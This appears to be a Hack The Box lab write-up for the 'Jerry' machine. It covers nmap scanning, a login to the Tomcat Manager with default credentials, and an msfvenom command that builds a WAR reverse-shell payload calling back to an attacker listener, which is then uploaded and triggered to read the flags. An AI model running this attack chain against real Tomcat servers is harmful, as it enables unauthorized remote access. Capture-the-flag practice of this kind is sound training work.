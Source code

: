 # [Jerry](https://app.hackthebox.com/machines/jerry)


```bash
nmap -p- --min-rate 10000 10.10.10.95 -Pn
```
![Alt text](img/image.png)


After knowing open ports (8080), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p8080 10.10.10.95 -Pn 
```

![Alt text](img/image-1.png)


After browsing the page, I go to default '/manager' endpoint of application where Tomcat Manager is located.

And I wrote default credentials for authentication.

![Alt text](img/image-2.png)

that's tomcat: s3cret


![Alt text](img/image-3.png)


Now, I need to create malicious `.war` file which gives me reverse shell via `msfvenom` command.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.8 LPORT=1337 -f war > dr4ks.war
```

![Alt text](img/image-4.png)


I can learn my malicious `.jsp` file by typing `strings dr4ks.war`.

![Alt text](img/image-6.png)


That's 'ftfpqwjqaqg.jsp' file which is malicious and I need to browse this.


Let's upload this malicious `.war` file into application.

![Alt text](img/image-5.png)


Let's browse this malicious `.jsp` file.

![Alt text](img/image-7.png)


I got reverse shell from port (1337).

![Alt text](img/image-8.png)


I found flags located in this directory ' C:\Users\Administrator\Desktop\flags'

I read this file via by typing `type 2*`.


user.txt and root.txt

![Alt text](img/image-9.png)
